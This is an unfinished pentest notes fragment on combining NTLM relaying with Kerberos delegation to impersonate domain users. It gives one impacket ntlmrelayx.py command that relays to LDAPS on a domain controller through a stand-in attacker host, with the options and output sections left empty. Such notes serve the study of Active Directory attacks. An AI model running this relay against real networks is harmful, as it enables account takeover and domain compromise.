



2. Delegate Impersonation
Add a new Computer and we can impersonate users on the target computer
Target LDAP Secure Service
kali@kali:$ cd /usr/share/doc/python3-impacket/examples
kali@kali:$ python3 ntlmrelayx.py -wh attackerFox.daniele.local --target ldaps://<IpDomainController> --no-smb-server
OPTIONS:



OUTPUT:

TO BE CONTINUED!!!
Bibliography:
• The worst of both worlds: Combining NTLM Relaying and Kerberos delegation - dirkjanm.io